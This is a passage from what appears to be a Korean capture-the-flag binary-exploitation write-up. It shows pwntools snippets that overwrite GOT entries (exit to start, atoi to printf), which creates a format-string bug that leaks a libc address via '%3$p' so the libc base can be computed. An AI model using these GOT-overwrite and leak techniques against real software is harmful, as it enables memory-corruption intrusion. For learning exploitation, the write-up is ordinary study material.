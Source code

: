 이번에도 역시 aaw를 반복적으로 해야 하기 때문에 `exit()` 함수의 GOT를 start 주소로 덮어쓴다  

<br>

---

```python
p.sendlineafter(b'=> ', b'4100')
aaw(atoi_got, printf_plt)
```

근데 이번엔 FSB를 활용할 것이기에 `atoi()`를 호출하면 `printf`가 호출되도록 GOT를 덮어쓴다  
<br>

---

```python
p.sendlineafter(b"=> ", b"%3$p")
libc = int(p.recvn(14), 16)
libc_base = libc - 0x11ba61
print("%3$p: ", hex(libc))
```

그러면 `printf(buf);`가 되어서 FSB가 터진다  
이때 3번째 인자 (64비트 바이너리기에 RCX 레지스터 값) 값을 출력할 수 있다  
<br>

---

![Image](/assets/img/250929/rcx.png)

`0x7cc307251a61`이 출력된다  
RCX 레지스터에 저장된 값이다  
<br>

---
